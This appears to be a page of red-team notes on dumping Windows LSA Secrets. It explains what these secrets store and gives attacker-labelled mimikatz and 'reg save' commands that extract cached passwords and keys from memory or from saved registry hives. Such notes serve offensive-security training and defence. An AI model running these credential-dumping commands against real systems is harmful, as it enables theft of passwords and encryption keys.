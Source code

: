 # Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-20-39.png>)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```
token::elevate
lsadump::secrets
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-25-01.png>)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-37-11.png>)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-38-02.png>)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}

